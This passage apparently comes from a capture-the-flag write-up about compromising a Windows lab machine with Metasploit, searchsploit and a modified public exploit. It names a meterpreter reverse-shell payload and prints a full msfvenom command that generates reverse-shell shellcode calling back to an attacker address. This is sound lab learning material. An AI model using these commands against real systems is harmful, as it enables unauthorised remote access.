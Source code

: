 Set the options and run  
<p align="center">
<img width="464" alt="5" src="https://user-images.githubusercontent.com/21021400/145682486-8ae2f56b-59fe-4edf-b8f5-e52ef27977a7.png">
</p>

Searched google for that error and found this post  
https://github.com/rapid7/metasploit-framework/issues/14130  

Decided to try this payload:  
```
payload/windows/meterpreter/reverse_tcp_allports
```
<p align="center">
<img width="410" alt="6" src="https://user-images.githubusercontent.com/21021400/145682488-37b90ef5-9ce3-4999-bf19-ac5313f67b54.png">
</p>

meterpreter session is open but dies after a few seconds.  

Looked for exploit via searchsploit  
<p align="center">
<img width="473" alt="7" src="https://user-images.githubusercontent.com/21021400/145682489-c209eefb-b65d-484c-bc18-f79d77374072.png">
</p>

Let's give the first exploit a try.  
<p align="center">
<img width="293" alt="8" src="https://user-images.githubusercontent.com/21021400/145682491-2a340f54-806b-45ff-b8bc-5dcd99ca2a1c.png">
</p>

The content of the exploit  
<p align="center">
<img width="474" alt="9" src="https://user-images.githubusercontent.com/21021400/145682492-5e33ef24-9b67-4f37-90af-0cb85856e23e.png">
</p>

As we can see in the comment, the buf variable holds the hex code for executing calc.exe.  

We need to change the msfvenom command to get the hex representation of a reverse shell command.  
```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
<p align="center">
<img width="474" alt="10" src="https://user-images.githubusercontent.com/21021400/145683103-51ef5e02-4c0b-4f23-b66e-2c714b007568.png">
</p>

I found it easier to replace the buf variable inside the script with opening a new python script,  
and copying the relevant parts from the previous script and the msfvenom command's output.

Last thing, is changing the IP address inside the exploit to the victim machine's IP  
<p align="center">
<img width="228" alt="11" src="https://user-images.githubusercontent.com/21021400/145682495-b54447a7-2c3f-483b-946a-dee217caf902.png">
</p>
